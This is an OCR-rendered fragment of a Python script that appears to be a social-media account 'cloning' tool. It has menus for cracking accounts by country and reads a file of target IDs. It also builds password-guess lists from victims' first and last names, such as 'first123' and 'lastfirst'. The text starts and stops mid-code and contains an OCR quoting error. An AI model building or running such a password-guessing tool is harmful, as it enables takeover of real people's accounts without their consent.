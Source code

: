 
                        print('\033[1;97m [+]-------------------------------------------------------')
                        exit()
        except ValueError:
                exit()
        except requests.exceptions.ConnectionError:
                print('\n [+] NO INTERNET CONNECTION ...')
                exit()
def mirwais001():
                                print(' [1] PAKISTAN CLONING\n [2] AFGHANISTAN CLONING \n [3] BANGLADESH CLONING\n [0] BACK MENU')
                                print('\033[1;97m [+]-------------------------------------------------------')
                                x=input(' [+] CHOOSE: ')
                                if x in ['1','01']:
                                        pak()
                                elif x in ['2','02']:
                                        afgan()
                                elif x in ['3','03']:
                                        bdawm()                                           
                                else:
                                        menu()
 
                
def file_cloning():
                                clear()
                                print(' [+] PUT FILE EXAMPLE:  /sdcard/file.txt  etc..')
                                print(' [+] MAKE SURE FILE IN YOUR STORAGE')
                                print('\033[1;97m [+]-------------------------------------------------------')
                                file = input(' [+] PUT FILE PATH\033[1;37m: ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(' [+] FILE LOCATION NOT FOUND ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print(' [+] TRY ALL METHODS  ')
                                print('\033[1;97m [+]-------------------------------------------------------')
                                print(' [1] METHOD 1 \033[1;91m Mobile New Ids\033[1;97m \n [2] METHOD 2 \033[1;92m API MIX')
                                print('\033[1;97m [+]-------------------------------------------------------')
                                mthd=input(' [+] CHOOSE: ')
                                print('\033[1;97m [+]-------------------------------------------------------')
                                plist = []
                                print(' [+] SELECT CRACK METHOD');print('\033[1;97m [+]-------------------------------------------------------');print(' [1] AUTO PASSWORD \n [2] CHOICE PASSWORD \n [3] FIRST LAST FIRSTLAST PASS CRACK\n [4] CRACK WITH FIRST AND LAST NAME ');print('\033[1;97m [+]-------------------------------------------------------')
                                ppp=input(' [+] CHOOSE: ')
                                if ppp in ['1','01']:
                                        plist.append('firstlast')
                                        plist.append('lastfirst')
                                        plist.append('first last')
                                        plist.append('last first')
                                        plist.append('first123')
                                        plist.append('last123')
                                        plist.append('first')
                                        plist.append('last')
                                        plist.append("first1234")
                                        plist.append("first12345")
                                        plist.append("first123456")
                                        plist.append(''first143")
                                        plist.append("firstlast123")
                                        plist.append("lastfirst123")
                                        plist.append("first12")
                                elif ppp in ['3','03']:
                                    plist.append("firstlast")